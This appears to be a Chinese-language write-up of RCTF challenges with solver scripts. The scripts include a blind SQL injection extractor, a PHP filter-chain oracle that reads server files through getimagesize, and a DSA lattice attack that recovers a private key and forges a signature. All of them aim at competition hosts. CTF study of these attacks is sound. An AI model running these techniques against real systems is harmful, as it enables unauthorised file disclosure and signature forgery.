



## 目录

## Misc

### logo:signin

直接给 logo 变量赋值 ROIS_LOGO 的字符串就行



### logo:2024

题目要求 logo 还是 ROIS_LOGO 的同时满足代码长度不超过 ROIS_LOGO 长度的 0.2024，也就是 449,观察 logo，发现去除\n 后只有空格和#组成。所以只有计算连续空格的个数和连续#的个数，并且知道第一个是#还是空格就可以复原 logo 变量。通过计算发现，#的长度在去除第一行和最后一行（这两行都是 100 字符）后只有两个连续#的长度超过 32，一个是 46，另一个是 73。同时发现#和空格不存在 30 的长度和 32 的长度。所以直接将这两个超过 32 的长度赋值为 29 和 31（长度减 1，从零开始）。空格也是不存在超过 32 个连续的，所以可以通过 5 个字节存储长度。这样得到了一个十六进制数，发现长度是 290 左右，再加上解码恢复的代码长度是超过 449 的，于是再将十六进制数使用 64 个字符进行编码，发现在长度范围以内。提交运行获得 flag。

flag 为 RCTF{Encoding_master_cc4edac3b7f2}

```python
z="K007A1<X0@1BZAf945B79TF9Q7<LVA\\6\\IA:8DJQ=6\\MA\\6@JQ\\6\\MA]4<K1<4`MA]68K1[4dTa]68CQ;4h\\A]4<CQ;50[a\\6<CQ:7<[1[6@CQ:7DRaSDDCAZ7LRAS@LK1Z7TJ1X6PC1;7TJ1Y6LJQ<7TJ1Z6LJ1\\6`J1X6\\B254\\cR38TC@:@^:5<1h?a["
v=i=w=0
while i<191:v=(ord(z[i])-48)+(v<<6);i=i+1
p=0;r=100;s="#"*r;e=[s]
while v:t2=v&31;v=v>>5;t2=t2+1 if(t2<31 and t2!=29)else(73 if t2<31 else 46);s=chr(35-p*3)*t2+s;p=p^1
while w<21:e=e+[s[w*r:(w+1)*r]];w=w+1
logo="\n".join(e)
```

### s1ayth3sp1re

直接将 jar 包用 jadx 打开，搜索 3000，发现 CardCrawlGame.goldGained >= 3000，找到代码处，发现好像不是，但是通过找到了表达分数的变量 f6393j，再次文本搜 f6393j，发现 this.f6393j > 3000，找到几个数组，应该就是异或加密，解密出来得到 flag

```python
iArr = [164, 158, 95, 107, 4, 215, 108, 115, 5, 8, 25, 57, 41, 236, 231, 17, 85]
iArr2 = [246, 221, 11, 45, 127, 148, 45, 36, 70, 73, 78, 8, 98, 141, 140, 112, 40]
iArr3 = [100, 174, 197, 56]
iArr4 = [2, 194, 164, 95]
str1=""
for i in range(len(iArr)):
    str1+=chr(iArr[i]^iArr2[i])
str2=""
for i in range(len(iArr4)):
    str2+=chr(iArr3[i]^iArr4[i])
print(str1,str2)
#RCTF{CAWCAW1Kaka} flag
```

### sec-image

发现每张图片里有四个字符，大致看了一遍，计算 flag 长度后猜测 flag 是 uuid，所以选择硬看。通过第一张已知 RCTF 顺序发现，每一个字母独有的位置，小黑点的偏移决定了其顺序，左上右上左下右下。下图是 R 独有的，偏移在左上，因此 R 是第一个字母。后续同理，因为字符只有 0-9+a-f，特征还是挺明显，拿不准的试几个就行。

flag：RCTF{c4baf0eb-e5ca-543a-06d0-39d72325a0}



### feedback

问卷

## Web

### what_is_love

阅读源码发现 flag 应该是两个部分分为 key1 和 key2。key1 存在 sql 布尔盲注，同时过滤了一些关键字和符号。不能使用 or，通过||代替，通过比较字符串返回真或者假。

```python
url="http://1.94.13.174:10088/key1"
key1="RCTF{"
ss="0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_"
start=0
end=36
while abs(start-end)!=1 and start!=end:
    ch_num=(start+end)//2
    ch=ss[ch_num]
    payload=f"'||love_key>'{key1+ch}'#"
    data={
        "key1":payload
    }
    res=requests.post(url,data=data)
    if res.text=="success":
        start=ch_num
    elif res.text=="wrong":
        end=ch_num
    else:
        print(res.text,key1+ch)
        start+=1
        end+=1
print(start,end)
print(ss[start],ss[end])

# key1=RCTF{THE_FIRST_STEP_IS_TO_GET_TO_KNOW_LOVE
```

接下来 key2 就是一个使得 love_time 是一个很大的整数，这样在与 64 位的 secret 相加时，secret 会被丢弃掉。

```javascript
const crypto = require("crypto");

const secret = crypto.randomBytes(128);
const hash = (data) => crypto.createHash("sha256").update(data).digest("hex");

const va = "1000000000000000000000000000000000000000000000000000000000";
const userinfo = JSON.stringify({
  username: "aaa",
  love_time: va,
  have_lovers: true,
});
const saltedSecret =
  parseInt(Buffer.from(secret).readBigUInt64BE()) + parseInt(va);
console.log(
  Buffer.from(userinfo).toString("base64") +
    "." +
    hash(`${userinfo}:${saltedSecret}`)
);

// eyJ1c2VybmFtZSI6ImFhYSIsImxvdmVfdGltZSI6IjEwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAiLCJoYXZlX2xvdmVycyI6dHJ1ZX0=.a0d293638b436a3a2569532cb0c134de641f9d8998189aef08f5f32387fdb749
```

在/check 传入这个 token 就可以获取 key2

flag：RCTF{THE_FIRST_STEP_IS_TO_GET_TO_KNOW_AND_GIVE_A_10000_YEAR_COMMITMENT_FOR_LOVE}

### color

进入网页，发现是一个辨别色差块的小游戏，提示说到 500level 有惊喜。打开控制台发现有检测直接跳转了。通过本地替换直接将跳转和 debug 的代码注释掉，然后发现在进入每一个 level 时会发送一个/game.php 的包，携带 action 和 rangeNum 参数，但是参数和返回的 data 都是加密的。在点击方块也会发生一个包，参数是 action 和 pos,通过发起程序调用堆栈找到参数加密的函数，使用的时 AES 的 CBC 加密，直接将 key 和 iv 找到，将参数解密发现第一个 action 是生成一个位置，也就是色差块的位置，rangeNum 是这个最大的范围。然后结果会返回色差块的位置。当选择方块时会发送 choose 的 action，pos 就是选择的位置，返回的结果告诉选择是否成功。

最后在游戏结束时会发送一个 gameover 的包，这里会返回 level，通过查看 js 代码，虽然混淆过，但是找到 gameOver 函数，发现在发送处理 gameover 返回的数据时，会查看字段 secret 是否不为空，不为空的话弹窗。

直接使用脚本模拟请求 500 次，获取 secret

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad,pad
import tqdm
import base64
import requests

url="http://124.71.164.28:10088/final/game.php"
sess=requests.Session()

for num in tqdm.tqdm(range(1,501)):
    cipher=AES.new(key=b'88b4dbc541cd57f2d55398e9be3e61ae',iv=b'41cd57f2d55398e9',mode=AES.MODE_CBC)
    data={
        "action":"3wrg4Ich1RsKFUUPmU0vlw==",
        "rangeNum":base64.b64encode(cipher.encrypt(pad(str(num*num).encode(),block_size=AES.block_size))).decode()
    }
    res=sess.post(url=url,data=data)
    info=res.json()
    c=base64.b64decode(info['data'])

    cipher=AES.new(key=b'88b4dbc541cd57f2d55398e9be3e61ae',iv=b'41cd57f2d55398e9',mode=AES.MODE_CBC)
    p=unpad(cipher.decrypt(c),block_size=AES.block_size)

    data={
        "action":"s03/Zr+K7nTxLc2aiHJQcg==",
        "pos":info['data']
    }
    res=sess.post(url=url,data=data)
    info=res.json()
    c=base64.b64decode(info['data'])

    cipher=AES.new(key=b'88b4dbc541cd57f2d55398e9be3e61ae',iv=b'41cd57f2d55398e9',mode=AES.MODE_CBC)
    p=unpad(cipher.decrypt(c),block_size=AES.block_size)

data={
        "action":"IMYZakV42qGIPRWdg/WfFg==",
    }
res=sess.post(url=url,data=data)
print(res.text)
info=res.json()
c=base64.b64decode(info['data'])

cipher=AES.new(key=b'88b4dbc541cd57f2d55398e9be3e61ae',iv=b'41cd57f2d55398e9',mode=AES.MODE_CBC)
p=unpad(cipher.decrypt(c),block_size=AES.block_size)
print(p)

# secret b'congratulations! This is a reward for you: /secr3tcolor.zip'
```

得到一个压缩包，解压发现是源码，发现了 action 为 checkImage 时会把上传的文件内容作为参数传给 getimagesize 函数，而 getimagesize 接受各种协议，所以可以使用 PHP 的 Filter 链进行 Oracle 文件读取攻击。

脚本如下

```python
import requests
import sys
from base64 import b64decode

"""
THE GRAND IDEA:
We can use PHP memory limit as an error oracle. Repeatedly applying the convert.iconv.L1.UCS-4LE
filter will blow up the string length by 4x every time it is used, which will quickly cause
500 error if and only if the string is non empty. So we now have an oracle that tells us if
the string is empty.

THE GRAND IDEA 2:
The dechunk filter is interesting.
https://github.com/php/php-src/blob/01b3fc03c30c6cb85038250bb5640be3a09c6a32/ext/standard/filters.c#L1724
It looks like it was implemented for something http related, but for our purposes, the interesting
behavior is that if the string contains no newlines, it will wipe the entire string if and only if
the string starts with A-Fa-f0-9, otherwise it will leave it untouched. This works perfect with our
above oracle! In fact we can verify that since the flag starts with D that the filter chain

dechunk|convert.iconv.L1.UCS-4LE|convert.iconv.L1.UCS-4LE|[...]|convert.iconv.L1.UCS-4LE

does not cause a 500 error.

THE REST:
So now we can verify if the first character is in A-Fa-f0-9. The rest of the challenge is a descent
into madness trying to figure out ways to:
- somehow get other characters not at the start of the flag file to the front
- detect more precisely which character is at the front
"""

def join(*x):
    return '|'.join(x)

def err(s):
    print(s)
    raise ValueError

def req(s):
    url1="http://124.71.164.28:10088/final/game.php"
    pp=f'php://filter/{s}/resource=/flag.txt'
    # print(pp)
    file={
        "image":pp.encode()
    }
    data={
        "action":"xEt6B2i+YJdcrJ/RG3Ie4Q=="
    }
    res=requests.post(url1, data=data,files=file)
    # print(res.text)
    return res.status_code == 500 or "something wrong" in res.text or "error" in res.text

"""
Step 1:
The second step of our exploit only works under two conditions:
- String only contains a-zA-Z0-9
- String ends with two equals signs

base64-encoding the flag file twice takes care of the first condition.

We don't know the length of the flag file, so we can't be sure that it will end with two equals
signs.

Repeated application of the convert.quoted-printable-encode will only consume additional
memory if the base64 ends with equals signs, so that's what we are going to use as an oracle here.
If the double-base64 does not end with two equals signs, we will add junk data to the start of the
flag with convert.iconv..CSISO2022KR until it does.
"""

blow_up_enc = join(*['convert.quoted-printable-encode']*1000)
blow_up_utf32 = 'convert.iconv.L1.UCS-4LE'
blow_up_inf = join(*[blow_up_utf32]*50)

header = 'convert.base64-encode|convert.base64-encode'

# Start get baseline blowup
print('Calculating blowup')
baseline_blowup = 0
for n in range(100):
    payload = join(*[blow_up_utf32]*n)
    if req(f'{header}|{payload}'):
        baseline_blowup = n
        break
else:
    err('something wrong')

print(f'baseline blowup is {baseline_blowup}')

trailer = join(*[blow_up_utf32]*(baseline_blowup-1))

assert req(f'{header}|{trailer}') == False

print('detecting equals')
j = [
    req(f'convert.base64-encode|convert.base64-encode|{blow_up_enc}|{trailer}'),
    req(f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.base64-encode{blow_up_enc}|{trailer}'),
    req(f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.iconv..CSISO2022KR|convert.base64-encode|{blow_up_enc}|{trailer}')
]
print(j)
if sum(j) != 2:
    err('something wrong')
if j[0] == False:
    header = f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.base64-encode'
elif j[1] == False:
    header = f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.iconv..CSISO2022KRconvert.base64-encode'
elif j[2] == False:
    header = f'convert.base64-encode|convert.base64-encode'
else:
    err('something wrong')
print(f'j: {j}')
print(f'header: {header}')

"""
Step two:
Now we have something of the form
[a-zA-Z0-9 things]==

Here the pain begins. For a long time I was trying to find something that would allow me to strip
successive characters from the start of the string to access every character. Maybe something like
that exists but I couldn't find it. However, if you play around with filter combinations you notice
there are filters that *swap* characters:

convert.iconv.CSUNICODE.UCS-2BE, which I call r2, flips every pair of characters in a string:
abcdefgh -> badcfehg

convert.iconv.UCS-4LE.10646-1:1993, which I call r4, reverses every chunk of four characters:
abcdefgh -> dcbahgfe

This allows us to access the first four characters of the string. Can we do better? It turns out
YES, we can! Turns out that convert.iconv.CSUNICODE.CSUNICODE appends <0xff><0xfe> to the start of
the string:

abcdefgh -> <0xff><0xfe>abcdefgh

The idea being that if we now use the r4 gadget, we get something like:
ba<0xfe><0xff>fedc

And then if we apply a convert.base64-decode|convert.base64-encode, it removes the invalid
<0xfe><0xff> to get:
bafedc

And then apply the r4 again, we have swapped the f and e to the front, which were the 5th and 6th
characters of the string. There's only one problem: our r4 gadget requires that the string length
is a multiple of 4. The original base64 string will be a multiple of four by definition, so when
we apply convert.iconv.CSUNICODE.CSUNICODE it will be two more than a multiple of four, which is no
good for our r4 gadget. This is where the double equals we required in step 1 comes in! Because it
turns out, if we apply the filter
convert.quoted-printable-encode|convert.quoted-printable-encode|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7

It will turn the == into:
+---AD0-3D3D+---AD0-3D3D

And this is magic, because this corrects such that when we apply the
convert.iconv.CSUNICODE.CSUNICODE filter the resuting string is exactly a multiple of four!

Let's recap. We have a string like:
abcdefghij==

Apply the convert.quoted-printable-encode + convert.iconv.L1.utf7:
abcdefghij+---AD0-3D3D+---AD0-3D3D

Apply convert.iconv.CSUNICODE.CSUNICODE:
<0xff><0xfe>abcdefghij+---AD0-3D3D+---AD0-3D3D

Apply r4 gadget:
ba<0xfe><0xff>fedcjihg---+-0DAD3D3---+-0DAD3D3

Apply base64-decode | base64-encode, so the '-' and high bytes will disappear:
bafedcjihg+0DAD3D3+0DAD3Dw==

Then apply r4 once more:
efabijcd0+gh3DAD0+3D3DAD==wD

And here's the cute part: not only have we now accessed the 5th and 6th chars of the string, but
the string still has two equals signs in it, so we can reapply the technique as many times as we
want, to access all the characters in the string ;)
"""

flip = "convert.quoted-printable-encode|convert.quoted-printable-encode|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.CSUNICODE.CSUNICODE|convert.iconv.UCS-4LE.10646-1:1993|convert.base64-decode|convert.base64-encode"
r2 = "convert.iconv.CSUNICODE.UCS-2BE"
r4 = "convert.iconv.UCS-4LE.10646-1:1993"

def get_nth(n):
    global flip, r2, r4
    o = []
    chunk = n // 2
    if chunk % 2 == 1: o.append(r4)
    o.extend([flip, r4] * (chunk // 2))
    if (n % 2 == 1) ^ (chunk % 2 == 1): o.append(r2)
    return join(*o)

"""
Step 3:
This is the longest but actually easiest part. We can use dechunk oracle to figure out if the first
char is 0-9A-Fa-f. So it's just a matter of finding filters which translate to or from those
chars. rot13 and string lower are helpful. There are probably a million ways to do this bit but
I just bruteforced every combination of iconv filters to find these.

Numbers are a bit trickier because iconv doesn't tend to touch them.
In the CTF you coud porbably just guess from there once you have the letters. But if you actually
want a full leak you can base64 encode a third time and use the first two letters of the resulting
string to figure out which number it is.
"""

rot1 = 'convert.iconv.437.CP930'
be = 'convert.quoted-printable-encode|convert.iconv..UTF7|convert.base64-decode|convert.base64-encode'
o = ''

def find_letter(prefix):
    if not req(f'{prefix}|dechunk|{blow_up_inf}'):
        # a-f A-F 0-9
        if not req(f'{prefix}|{rot1}|dechunk|{blow_up_inf}'):
            # a-e
            for n in range(5):
                if req(f'{prefix}|' + f'{rot1}|{be}|'*(n+1) + f'{rot1}|dechunk|{blow_up_inf}'):
                    return 'edcba'[n]
                    break
            else:
                err('something wrong')
        elif not req(f'{prefix}|string.tolower|{rot1}|dechunk|{blow_up_inf}'):
            # A-E
            for n in range(5):
                if req(f'{prefix}|string.tolower|' + f'{rot1}|{be}|'*(n+1) + f'{rot1}|dechunk|{blow_up_inf}'):
                    return 'EDCBA'[n]
                    break
            else:
                err('something wrong')
        elif not req(f'{prefix}|convert.iconv.CSISO5427CYRILLIC.855|dechunk|{blow_up_inf}'):
            return '*'
        elif not req(f'{prefix}|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
            # f
            return 'f'
        elif not req(f'{prefix}|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
            # F
            return 'F'
        else:
            err('something wrong')
    elif not req(f'{prefix}|string.rot13|dechunk|{blow_up_inf}'):
        # n-s N-S
        if not req(f'{prefix}|string.rot13|{rot1}|dechunk|{blow_up_inf}'):
            # n-r
            for n in range(5):
                if req(f'{prefix}|string.rot13|' + f'{rot1}|{be}|'*(n+1) + f'{rot1}|dechunk|{blow_up_inf}'):
                    return 'rqpon'[n]
                    break
            else:
                err('something wrong')
        elif not req(f'{prefix}|string.rot13|string.tolower|{rot1}|dechunk|{blow_up_inf}'):
            # N-R
            for n in range(5):
                if req(f'{prefix}|string.rot13|string.tolower|' + f'{rot1}|{be}|'*(n+1) + f'{rot1}|dechunk|{blow_up_inf}'):
                    return 'RQPON'[n]
                    break
            else:
                err('something wrong')
        elif not req(f'{prefix}|string.rot13|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
            # s
            return 's'
        elif not req(f'{prefix}|string.rot13|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
            # S
            return 'S'
        else:
            err('something wrong')
    elif not req(f'{prefix}|{rot1}|string.rot13|dechunk|{blow_up_inf}'):
        # i j k
        if req(f'{prefix}|{rot1}|string.rot13|{be}|{rot1}|dechunk|{blow_up_inf}'):
            return 'k'
        elif req(f'{prefix}|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
            return 'j'
        elif req(f'{prefix}|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
            return 'i'
        else:
            err('something wrong')
    elif not req(f'{prefix}|string.tolower|{rot1}|string.rot13|dechunk|{blow_up_inf}'):
        # I J K
        if req(f'{prefix}|string.tolower|{rot1}|string.rot13|{be}|{rot1}|dechunk|{blow_up_inf}'):
            return 'K'
        elif req(f'{prefix}|string.tolower|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
            return 'J'
        elif req(f'{prefix}|string.tolower|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
            return 'I'
        else:
            err('something wrong')
    elif not req(f'{prefix}|string.rot13|{rot1}|string.rot13|dechunk|{blow_up_inf}'):
        # v w x
        if req(f'{prefix}|string.rot13|{rot1}|string.rot13|{be}|{rot1}|dechunk|{blow_up_inf}'):
            return 'x'
        elif req(f'{prefix}|string.rot13|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
            return 'w'
        elif req(f'{prefix}|string.rot13|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
            return 'v'
        else:
            err('something wrong')
    elif not req(f'{prefix}|string.tolower|string.rot13|{rot1}|string.rot13|dechunk|{blow_up_inf}'):
        # V W X
        if req(f'{prefix}|string.tolower|string.rot13|{rot1}|string.rot13|{be}|{rot1}|dechunk|{blow_up_inf}'):
            return 'X'
        elif req(f'{prefix}|string.tolower|string.rot13|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
            return 'W'
        elif req(f'{prefix}|string.tolower|string.rot13|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):
            return 'V'
        else:
            err('something wrong')
    elif not req(f'{prefix}|convert.iconv.CP285.CP280|string.rot13|dechunk|{blow_up_inf}'):
        # Z
        return 'Z'
    elif not req(f'{prefix}|string.toupper|convert.iconv.CP285.CP280|string.rot13|dechunk|{blow_up_inf}'):
        # z
        return 'z'
    elif not req(f'{prefix}|string.rot13|convert.iconv.CP285.CP280|string.rot13|dechunk|{blow_up_inf}'):
        # M
        return 'M'
    elif not req(f'{prefix}|string.rot13|string.toupper|convert.iconv.CP285.CP280|string.rot13|dechunk|{blow_up_inf}'):
        # m
        return 'm'
    elif not req(f'{prefix}|convert.iconv.CP273.CP1122|string.rot13|dechunk|{blow_up_inf}'):
        # y
        return 'y'
    elif not req(f'{prefix}|string.tolower|convert.iconv.CP273.CP1122|string.rot13|dechunk|{blow_up_inf}'):
        # Y
        return 'Y'
    elif not req(f'{prefix}|string.rot13|convert.iconv.CP273.CP1122|string.rot13|dechunk|{blow_up_inf}'):
        # l
        return 'l'
    elif not req(f'{prefix}|string.tolower|string.rot13|convert.iconv.CP273.CP1122|string.rot13|dechunk|{blow_up_inf}'):
        # L
        return 'L'
    elif not req(f'{prefix}|convert.iconv.500.1026|string.tolower|convert.iconv.437.CP930|string.rot13|dechunk|{blow_up_inf}'):
        # h
        return 'h'
    elif not req(f'{prefix}|string.tolower|convert.iconv.500.1026|string.tolower|convert.iconv.437.CP930|string.rot13|dechunk|{blow_up_inf}'):
        # H
        return 'H'
    elif not req(f'{prefix}|string.rot13|convert.iconv.500.1026|string.tolower|convert.iconv.437.CP930|string.rot13|dechunk|{blow_up_inf}'):
        # u
        return 'u'
    elif not req(f'{prefix}|string.rot13|string.tolower|convert.iconv.500.1026|string.tolower|convert.iconv.437.CP930|string.rot13|dechunk|{blow_up_inf}'):
        # U
        return 'U'
    elif not req(f'{prefix}|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
        # g
        return 'g'
    elif not req(f'{prefix}|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
        # G
        return 'G'
    elif not req(f'{prefix}|string.rot13|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
        # t
        return 't'
    elif not req(f'{prefix}|string.rot13|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):
        # T
        return 'T'
    else:
        err('something wrong')

print()
for i in range(100):
    prefix = f'{header}|{get_nth(i)}'
    letter = find_letter(prefix)
    # it's a number! check base64
    if letter == '*':
        prefix = f'{header}|{get_nth(i)}|convert.base64-encode'
        s = find_letter(prefix)
        if s == 'M':
            # 0 - 3
            prefix = f'{header}|{get_nth(i)}|convert.base64-encode|{r2}'
            ss = find_letter(prefix)
            if ss in 'CDEFGH':
                letter = '0'
            elif ss in 'STUVWX':
                letter = '1'
            elif ss in 'ijklmn':
                letter = '2'
            elif ss in 'yz*':
                letter = '3'
            else:
                err(f'bad num ({ss})')
        elif s == 'N':
            # 4 - 7
            prefix = f'{header}|{get_nth(i)}|convert.base64-encode|{r2}'
            ss = find_letter(prefix)
            if ss in 'CDEFGH':
                letter = '4'
            elif ss in 'STUVWX':
                letter = '5'
            elif ss in 'ijklmn':
                letter = '6'
            elif ss in 'yz*':
                letter = '7'
            else:
                err(f'bad num ({ss})')
        elif s == 'O':
            # 8 - 9
            prefix = f'{header}|{get_nth(i)}|convert.base64-encode|{r2}'
            ss = find_letter(prefix)
            if ss in 'CDEFGH':
                letter = '8'
            elif ss in 'STUVWX':
                letter = '9'
            else:
                err(f'bad num ({ss})')
        else:
            err('wtf')

    print(end=letter)
    o += letter
    sys.stdout.flush()

"""
We are done!! :)
"""

print()
d = b64decode(o.encode() + b'=' * 4)
# remove KR padding
d = d.replace(b'$)C',b'')
print(b64decode(d))

# GyQpQ1VrTlVSbnREYjJ4dmNsOURiMnd3Y2w5RE1HeHZjbjBL
```

得到 flag: RCTF{Color_Col0r_C0lor}

## Reverse

### 2048

发现循环按“wawd”就可以获胜，赢几次分数就够了

```python
from pwn import *

# 配置远程服务的地址和端口
host = '1.94.104.104'# 10088'
port = 10088
context.log_level = 'debug'
# 设置超时时间（秒）
timeout = 1

# 创建远程连接
p = remote(host, port)
table = "wawd"
score = 0
i = 0
j = 0
while True:
    data = p.recv(timeout=timeout).decode()
    if data:
        if 'your current score:' in data:
            score = int(data.split(":")[1].split()[0])
            if score > 1000000:
                p.interactive()
                pause()
            elif score ==0:
                pause()
            p.sendline(b'1')
            p.recvuntil(b'please enter the score you want to win:')
            # pause()
            p.sendline(str(score).encode())
            i = 0
        # elif 'congratulations! here is the flag:' in data:
        #     p.interactive()
        else:
            p.sendline(table[i%4].encode())
            i += 1
    else:
        p.sendline(table[i%4].encode())
        j += 1
        i += 1
        if j==4:
            p.sendline(b's')
            j = 0
```

### blocker_vm

动态调试发现是异或+移位+rc4，其中密钥长度为 18，不是整个字符串。

在线网站 rc4 求解之后脚本解密



```python
a = [0xcb,0x8f,0x4a,0xce,0x81,0x07,0x88,0xc7,0x07,0xc7,0x01,0x88,0x46,0x06,0xc7,0x02,0x86,0x88,0xc7,0x44,0x84,0x85,0x06,0xc3]
for i in range(len(a)):
    print(chr((((a[i]>>6) | (a[i]<<2)) & 0xff)^0x7d),end='')
# RCTF{a_baby_debug_bloker
```

## Crypto

### Signsystem

k 泄露 10bit，标准 hnp 格，爆破一下 msb 和 lsb

```python
from pwn import  *
from hashlib import sha1
# context.log_level = 'debug'
sh=remote("121.37.182.7","10089")
# sh=process(['sage','./la.py'])
sh.recvuntil(b': ')
pub=eval(sh.recvuntil(b')').decode())
sign=[]
L = 19
for i in range(L):
    sh.recvuntil(b'>')
    sh.sendline("1")
    sh.recvuntil(b'?: ')
    sh.sendline(str(i))
    sh.recvuntil(b': ')
    tmp=eval(sh.recvuntil(b')').decode())
    sign.append(tmp)

p,q,g,y = pub

r = [_[0] for _ in sign]
s = [_[1] for _ in sign]
H=[]
for i in range(L):
    H.append(int(sha1(str(i).encode()).hexdigest(), 16))
from tqdm import tqdm
for msb in tqdm(range(256)):
    for lsb in range(4):
        A = []
        b = []
        for i in range(1,L):
            A.append(int(r[i]*s[0]*inverse_mod(r[0]*s[i],q)%q))
            b.append(int((r[0]*H[i]-r[i]*H[0]-r[0]*s[i]*((2^152)*msb+lsb)+r[i]*s[0]*((2^152)*msb+lsb))*inverse_mod(r[0]*s[i],q)*inverse_mod(4,q)%q))

        m = matrix(L+1,L+1)
        for i in range(L-1):
            m[i,i] = q
            m[-2,i] = int(A[i])
            m[-1,i] = int(b[i])
        m[-2,-2] = 1
        m[-1,-1] = 2^150

        l=m.BKZ(blocksize=20)
        if l[0][-1]==0:
            continue
        kl=l[0][-2]
        k0=msb*(2^152)+lsb+kl*4
        x=(k0*sign[0][1]-H[0])*inverse_mod(sign[0][0],q)%q
        tmp_y=pow(g,x,p)
        if tmp_y==y:
            print(msb,lsb,x,kl)
            sh.recvuntil(b'>')
            sh.sendline("2")
            sh.recvuntil(b'?: ')
            sh.sendline("get flag")
            sh.recvuntil(b'r:')
            r1=pow(g,k0,p)%q
            Hm = int(sha1(b'get flag').hexdigest(), 16)
            s = (Hm + x * r1) * inverse_mod(k0, q) % q
            sh.sendline(str(r1).encode())
            sh.recvuntil(b's:')
            sh.sendline(str(s).encode())
            print(sh.recvline())
            quit()
# RCTF{Ev3ry_fighter_h@s_their_signature_style}
```
